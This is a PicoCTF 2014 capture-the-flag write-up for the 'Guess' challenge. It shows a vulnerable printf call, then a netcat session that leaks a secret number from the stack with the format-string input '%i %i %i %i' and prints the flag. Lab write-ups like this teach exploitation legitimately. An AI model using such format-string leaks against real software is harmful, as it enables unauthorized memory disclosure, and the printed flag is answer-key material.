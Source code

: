 ## Guess - 75 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-22 14:08:55

Last modified: [2014-11-22 15:15:33](https://github.com/Oksisane/PicoCTF-2014-Writeups/commits/master/binary_exploitation/guess.md)


### Problem ###

This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](https://picoctf.com/problem-static/binary/Guess/guess.c).
### Hint ###

The only way to combat secure randomness is to leak the secret.

## Answer ##

### Overview ###

Exploit a basic format string vulnurability.

### Details ###

Looking at the source code, these lines immediately stand out:

```c
printf("Hello! What is your name?\n");

fgets(name, sizeof(name), stdin);

printf("Welcome to the guessing game, ");
printf(name);
```
Here we can see that the program reads in your name, then prints it using `printf`. `printf`, when called on user input, has a set of very serious vulnurabilities that let us read and write to the stack (see the writeup on Format for more detail). This means we can print out the next integer on the stack by setting our name as `%i`, the next two by setting our name as `%i %i`, repeated as many times as we need to print out the randomly generated number. As it turns out, the integer we want is in the 4th position, so we enter our name as `%i %i %i %i` and then enter the number to pass the check!
```sh
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%i %i %i %i
Welcome to the guessing game, 32 -143569888 160419848 765327463

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
765327463
Wow! You guessed it!
Your flag is: leak_the_seakret
```
### Flag ###

    leak_the_seakret

